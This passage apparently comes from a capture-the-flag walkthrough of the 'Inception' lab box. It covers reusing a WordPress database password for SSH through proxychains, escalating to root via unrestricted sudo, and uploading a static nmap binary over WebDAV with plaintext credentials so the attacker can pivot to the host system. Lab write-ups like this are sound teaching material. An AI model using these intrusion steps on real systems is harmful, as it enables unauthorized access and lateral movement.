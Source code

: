 As SSH is open, we try the password from the WordPress database with root and the user _cobb_:
```markdown
proxychains ssh cobb@127.0.0.1
```

The password _"VwPddNh7xMZyDQoByQL4"_ works on the user _cobb_ and logs us in on the box.

## Privilege Escalation

Looking at the `sudo` privileges of _cobb_, it shows the following:
```markdown
Matching Defaults entries for cobb on Inception:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User cobb may run the following commands on Inception:
    (ALL : ALL) ALL
```

It is possible to run everything as root, so lets change user to root:
```markdown
sudo su -l
```

Our privileges got escalated to root!

## Getting root.txt

Unfortunately _root.txt_ does not have the correct flag in it but instead it says:
```markdown
You're waiting for a train. A train that will take you far away. Wake up to find root.txt.
```

We should run any **Linux Enumeration script** to get more information about the box.
After analyzing the network settings, it becomes clear that this is not the correct box, because it has a different IP address:
```markdown
eth0      Link encap:Ethernet  HWaddr 00:16:3e:28:53:63  
          inet addr:192.168.0.10  Bcast:192.168.0.255  Mask:255.255.255.0
          inet6 addr: fe80::216:3eff:fe28:5363/64 Scope:Link
          (...)
```

So this is probably a guest system and the host system _192.168.0.1_ is probably the host. To scan the ports on the host, a [static Nmap binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/nmap) is needed on the guest:
```markdown
curl -vvv --upload-file static-nmap http://10.10.10.67/webdav_test_inception/static-nmap --user webdav_tester:babygurl69

mv /var/www/html/webdav_test_inception/static-nmap /dev/shm/

chmod +x static-nmap

./static-nmap
```
